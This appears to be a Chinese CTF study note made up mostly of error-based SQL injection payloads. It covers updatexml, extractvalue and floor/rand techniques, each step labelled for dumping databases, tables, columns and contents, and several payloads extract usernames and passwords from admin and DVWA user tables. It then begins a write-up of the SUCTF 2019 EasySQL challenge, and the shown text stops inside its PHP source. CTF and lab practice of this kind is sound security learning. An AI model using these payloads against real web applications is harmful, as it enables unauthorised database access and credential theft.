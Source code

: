 ~~~sql
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select column_name),0x7e) FROM admin limit 0,1),0x7e),1)

爆字段内容
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)

爆表名
?id=1 and updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
爆列名
?id=1 and updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#
爆字段
?id=1 and updatexml(1,make_set(3,'~',(select data from users)),1)#
~~~

#### extractvalue
~~~sql
爆数据库
?id=1' and extractvalue(1,concat(0x7e,user(),0x7e,database())) #
爆表
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) #
爆字段
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) #
爆字段内容
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(user_id,0x7e,first_name,0x3a,last_name) from dvwa.users))) #
~~~

#### floor
~~~sql
爆数据库
?id=1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #
爆表
?id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema='dvwa' limit 0,1)) x from information_schema.schemata group by x#
爆字段
?id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa' limit 0,1)) x from information_schema.schemata group by x#
爆内容
?id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(user,0x3a,password) from dvwa.users limit 0,1)) x from information_schema.schemata group by x#
~~~
## [SUCTF 2019]EasySQL （堆叠诸如  猜测后台sql语句）
这道题比较新颖，直接放源码吧
~~~php
  <?php
    session_start();

    include_once "config.php";
    
    $post = array();
    $get = array();
    global $MysqlLink;
    
    //GetPara();
    $MysqlLink = mysqli_connect("localhost",$datauser,$datapass);
~~~